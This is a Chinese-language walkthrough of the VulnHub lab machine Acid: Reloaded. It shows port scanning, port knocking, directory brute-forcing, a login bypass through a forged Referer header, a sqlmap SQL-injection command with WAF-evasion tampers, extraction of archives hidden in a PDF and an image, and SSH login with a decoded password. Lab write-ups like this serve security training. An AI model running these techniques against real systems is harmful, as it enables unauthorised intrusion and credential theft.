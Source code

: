 # ACID: RELOADED

> https://download.vulnhub.com/acid/Acid-Reloaded.7z

靶场IP：`192.168.32.206`

扫描对外端口服务

```
┌──(root💀kali)-[/tmp]
└─# nmap -p 1-65535 -sV  192.168.32.206
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-06 01:40 EDT
Nmap scan report for 192.168.32.206
Host is up (0.0013s latency).
Not shown: 65533 closed tcp ports (reset)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 6.7p1 Ubuntu 5ubuntu1.3 (Ubuntu Linux; protocol 2.0)
33447/tcp filtered unknown
MAC Address: 00:0C:29:D0:CF:4C (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 5.23 seconds

```

访问SSH端口，提示端口敲门，`3.2.1`顺序

![image-20220906141103271](../../.gitbook/assets/image-20220906141103271.png)

重新扫描端口

```
┌──(root💀kali)-[/tmp]
└─# nmap -p 1-65535 -sV  192.168.32.206
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-06 02:13 EDT
Nmap scan report for 192.168.32.206
Host is up (0.0028s latency).
Not shown: 65533 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Ubuntu 5ubuntu1.3 (Ubuntu Linux; protocol 2.0)
33447/tcp open  http    Apache httpd 2.4.10 ((Ubuntu))
MAC Address: 00:0C:29:D0:CF:4C (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.42 seconds

```

访问33447端口

![image-20220906141425676](../../.gitbook/assets/image-20220906141425676.png)

发现一个`/bin`目录

![image-20220906141724559](../../.gitbook/assets/image-20220906141724559.png)

![image-20220906141741386](../../.gitbook/assets/image-20220906141741386.png)

爆破页面

```
┌──(root💀kali)-[/tmp]
└─# gobuster dir -u http://192.168.32.206:33447/bin -x php -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 2>/dev/null
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.32.206:33447/bin
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/09/06 02:20:02 Starting gobuster in directory enumeration mode
===============================================================
/crack                (Status: 301) [Size: 329] [--> http://192.168.32.206:33447/bin/crack/]
/index.php            (Status: 200) [Size: 1467]                                            
/css                  (Status: 301) [Size: 327] [--> http://192.168.32.206:33447/bin/css/]  
/includes             (Status: 301) [Size: 332] [--> http://192.168.32.206:33447/bin/includes/]
/js                   (Status: 301) [Size: 326] [--> http://192.168.32.206:33447/bin/js/]      
/styles               (Status: 301) [Size: 330] [--> http://192.168.32.206:33447/bin/styles/]  
/error.php            (Status: 200) [Size: 309]                                                
/dashboard.php        (Status: 200) [Size: 675]  
```

访问`/dashboard.php `

![image-20220906142139750](../../.gitbook/assets/image-20220906142139750.png)

研究数据包，发现会有一个认证页面

![image-20220906142448862](../../.gitbook/assets/image-20220906142448862.png)

尝试添加referer来源，可以发现绕过登录

![image-20220906142743673](../../.gitbook/assets/image-20220906142743673.png)

![image-20220906142758023](../../.gitbook/assets/image-20220906142758023.png)

发现一个路径：`/bin/l33t_haxor.php`

![image-20220906142938144](../../.gitbook/assets/image-20220906142938144.png)

输入`id`参数，显示内容

![image-20220906143006544](../../.gitbook/assets/image-20220906143006544.png)

使用sqlmap，发现一个路径`UB3R/strcpy.exe`

```
┌──(root💀kali)-[/tmp]
└─# sqlmap -u "http://192.168.32.206:33447/bin/l33t_haxor.php?id=1" -D secure_login --tables  --level 5 --risk 3 -p id --batch --tamper=space2comment,space2dash,space2hash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank

```

![image-20220906143657430](../../.gitbook/assets/image-20220906143657430.png)

查看`strcpy.exe`文件，发现是PDF文档

```
┌──(root💀kali)-[~/Downloads]
└─# file strcpy.exe 
strcpy.exe: PDF document, version 1.5 (password protected)

```

修改格式，查看PDF，没有发现什么有用的东西。

![image-20220906143832491](../../.gitbook/assets/image-20220906143832491.png)

查看文件内容，发现有多个文件合在一起，推测这是一个压缩包。

```
strings strcpy.pdf
```

```
┌──(root💀kali)-[~/Downloads]
└─# unrar e strcpy.rar

UNRAR 6.12 freeware      Copyright (c) 1993-2022 Alexander Roshal


Extracting from strcpy.rar

Extracting  acid.txt                                                  OK 
Extracting  lol.jpg                                                   OK 
All OK
                                        
```

解压是一个文本和图片

![image-20220906144333012](../../.gitbook/assets/image-20220906144333012.png)

查看`lol.jpg`，推测也是一个压缩包。

![image-20220906144451381](../../.gitbook/assets/image-20220906144451381.png)

```
┌──(root💀kali)-[~/Downloads]
└─# mv lol.jpg lol.rar                                                                                                                                                                                                                
                                                                                                                                                                                                                                            
┌──(root💀kali)-[~/Downloads]
└─# unrar e lol.rar   

UNRAR 6.12 freeware      Copyright (c) 1993-2022 Alexander Roshal


Extracting from lol.rar

Extracting  Avinash.contact                                           OK 
Extracting  hint.txt                                                  OK 
All OK
                                                                                                                                                                                                                                            
┌──(root💀kali)-[~/Downloads]
└─# cat Avinash.contact 
<?xml version="1.0" encoding="UTF-8"?>
<c:contact c:Version="1" xmlns:c="http://schemas.microsoft.com/Contact" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:MSP2P="http://schemas.microsoft.com/Contact/Extended/MSP2P" xmlns:MSWABMAPI="http://schemas.microsoft.com/Contact/Extended/MSWABMAPI">
        <c:CreationDate>2015-08-23T11:39:18Z</c:CreationDate><c:Extended><MSWABMAPI:PropTag0x3A58101F c:ContentType="binary/x-ms-wab-mapi" c:type="binary">AQAAABIAAABOAG8AbwBCAEAAMQAyADMAAAA=</MSWABMAPI:PropTag0x3A58101F></c:Extended>
        <c:ContactIDCollection><c:ContactID c:ElementID="599ef753-f77f-4224-8700-e551bdc2bb1e"><c:Value>0bcf610e-a7be-4f26-9042-d6b3c22c9863</c:Value></c:ContactID></c:ContactIDCollection><c:EmailAddressCollection><c:EmailAddress c:ElementID="0745ffd4-ef0a-4c4f-b1b6-0ea38c65254e"><c:Type>SMTP</c:Type><c:Address>acid.exploit@gmail.com</c:Address><c:LabelCollection><c:Label>Preferred</c:Label></c:LabelCollection></c:EmailAddress><c:EmailAddress c:ElementID="594eec25-47bd-4290-bd96-a17448f7596a" xsi:nil="true"/></c:EmailAddressCollection><c:NameCollection><c:Name c:ElementID="318f9ce5-7a08-4ea0-8b6a-2ce3e9829ff2"><c:FormattedName>Avinash</c:FormattedName><c:GivenName>Avinash</c:GivenName></c:Name></c:NameCollection><c:PersonCollection><c:Person c:ElementID="865f9eda-796e-451a-92b1-bf8ee2172134"><c:FormattedName>Makke</c:FormattedName><c:LabelCollection><c:Label>wab:Spouse</c:Label></c:LabelCollection></c:Person></c:PersonCollection><c:PhotoCollection><c:Photo c:ElementID="2fb5b981-cec1-45d0-ae61-7c340cfb3d72"><c:LabelCollection><c:Label>UserTile</c:Label></c:LabelCollection></c:Photo></c:PhotoCollection></c:contact>
                                                                                                                                                                                                                                            
┌──(root💀kali)-[~/Downloads]
└─# cat hint.txt       
You have found a contact. Now, go and grab the details :-)

```

分析xml找到一串base64字符串和两个用户（`Avinash`，`Makke`）

```
┌──(root💀kali)-[~/Downloads]
└─# echo 'AQAAABIAAABOAG8AbwBCAEAAMQAyADMAAAA=' | base64 -d 
NooB@123    
```

ssh登录

![image-20220906144822042](../../.gitbook/assets/image-20220906144822042.png)

找到一个提示。

![image-20220906144919602](../../.gitbook/assets/image-20220906144919602.png)

![image-20230208133522189](../../.gitbook/assets/image-20230208133522189.png)
